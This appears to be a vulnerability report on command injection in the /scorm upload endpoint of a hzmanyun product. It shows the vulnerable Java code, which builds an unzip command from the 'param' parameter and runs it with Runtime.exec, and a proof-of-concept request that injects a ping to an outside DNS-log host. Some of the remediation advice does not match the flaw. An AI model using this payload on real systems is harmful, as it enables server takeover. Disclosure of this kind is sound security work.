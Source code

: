 

![image-20250225202657195](./assets/image-20250225202657195.png)

![image-20250225202711290](./assets/image-20250225202711290.png)

![image-20250225202748153](./assets/image-20250225202748153.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

### Title:
**command injection To Remote Code Execution (RCE) Vulnerability in `/scorm` Endpoint**

### Summary:
The `/scorm` endpoint in the application is vulnerable to Remote Code Execution (RCE) due to improper handling of parametor like `param`. An attacker can inject the command , leading to RCE of the system.

### Affected Endpoint:
`/scorm`

### Vulnerability Type:
Remote Code Execution (RCE)

### Vulnerable Code:
```java
 @RequestMapping({"/scorm"})
 @ResponseBody
 public String scorm(HttpServletRequest request, HttpServletResponse response) {
    try {
       MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
       MultipartFile imgFile = multipartRequest.getFile("fileupload");
       if (imgFile.getName().endsWith(".jsp")) {
          return null;
       } else {
          String[] paths = FileUtil.getSavePathByRequest(request);
          JsonObject json = FileUtil.saveScormZipFile(imgFile, paths);
          logger.info("++++upload img return:" + json.get("url").getAsString());
          return json.get("url").getAsString();
       }
    } catch (Exception var7) {
       logger.error("goswf error", var7);
       return null;
    }
 }
```

```java
 public static String[] getSavePathByRequest(HttpServletRequest request) {
    String base = request.getParameter("base");
    if (StringUtils.isEmpty(base)) {
       base = "imgdefault";
    }

    String param = request.getParameter("param");
    if (StringUtils.isEmpty(param)) {
       param = "common";
    }

    String dateStr = DateUtils.toString(new Date(), "yyyyMMdd");
    String ukey = request.getParameter("ukey");
    StringBuffer savePath = new StringBuffer();
    StringBuffer urlPath = new StringBuffer();
    savePath.append(rootpath).append("/").append("upload").append("/").append(base).append("/").append(param);
    urlPath.append("/").append("upload").append("/").append(base).append("/").append(param);
    if (StringUtils.isNotEmpty(ukey)) {
       savePath.append("/").append(ukey);
       urlPath.append("/").append(ukey);
    }

    savePath.append("/").append(dateStr);
    urlPath.append("/").append(dateStr);
    String[] result = new String[]{savePath.toString(), urlPath.toString()};
    return result;
 }

```

```java
 public static JsonObject saveScormZipFile(MultipartFile file, String[] paths) {
    JsonObject obj = new JsonObject();

    try {
       String savePath = paths[0];
       String urlPath = paths[1];
       String newFileName = "";
       String upFileName = file.getOriginalFilename();
       if (StringUtils.isNotEmpty(upFileName)) {
          newFileName = getRandomFileNameString(upFileName);
          File isD = new File(savePath);
          if (!isD.isDirectory()) {
             isD.mkdirs();
          }

          if (!isD.exists()) {
             Class var8 = FileUtil.class;
             synchronized(FileUtil.class) {
                isD.mkdirs();
             }
          }

          String saveFilename = savePath + File.separator + newFileName;
          file.transferTo(new File(saveFilename));
          obj.addProperty("error", 0);
          urlPath = urlPath + "/" + newFileName;
          obj.addProperty("url", urlPath);
          String command = "";
          String dir = "";
          if (urlPath.endsWith(".zip")) {
             dir = "/data/htdocs/static" + urlPath.replace(".zip", "");
             File f = new File(dir);
             if (!f.exists()) {
                f.mkdirs();
             }

             command = "unzip /data/htdocs/static" + urlPath + " -d " + dir;
             System.out.println(command);
          }

          if (StringUtils.isNotEmpty(command)) {
             Process process = Runtime.getRuntime().exec(command);
             process.waitFor();
             urlPath = urlPath.replace(".zip", "");
             String[] list = (new File(dir)).list();
             if (list.length > 0) {
                String[] var13 = list;
                int var14 = list.length;

                for(int var15 = 0; var15 < var14; ++var15) {
                   String fName = var13[var15];
                   if (fName.endsWith(".html") || fName.endsWith(".htm")) {
                      obj.addProperty("url", urlPath + "/" + fName);
                      break;
                   }
                }
             }
          }
       } else {
          obj.addProperty("error", -1);
          obj.addProperty("message", "文件名为空");
       }

       return obj;
    } catch (Exception var18) {
       logger.error("+++upload kindeditor images error", var18);
       obj.addProperty("error", -1);
       obj.addProperty("message", "上传异常，请稍后再试");
       return obj;
    }
 }
```

### Proof of Concept (PoC):

```plaintext
POST /scorm?param=;ping 7b8f93d0.log.dnslog.myfw.us.; HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update.txt"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![image-20250225210440260](./assets/image-20250225210440260.png)

### Impact:

This vulnerability allows an attacker to upload and execute arbitrary code on the server, potentially leading to unauthorized access, data theft, or complete system compromise. The attacker could manipulate the server's behavior, steal sensitive information, or launch further attacks from the compromised server.

### Recommendation:
1. Validate file extensions and content types to ensure that only safe file types are accepted for upload.
2. Implement proper input validation and sanitization techniques to prevent malicious file uploads.
3. Consider implementing a Content Security Policy (CSP) to restrict the types of content that can be executed on the server.
4. Regularly update and patch the application to address security vulnerabilities.

### Conclusion:
The Remote Code Execution (RCE) vulnerability in the `/scorm` endpoint poses a significant security risk to the application. It is crucial to address this issue promptly by implementing the recommended security measures to prevent potential exploitation by malicious actors.

### References:
1. OWASP File Upload Security: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
2. OWASP Top Ten: https://owasp.org/www-project-top-ten/

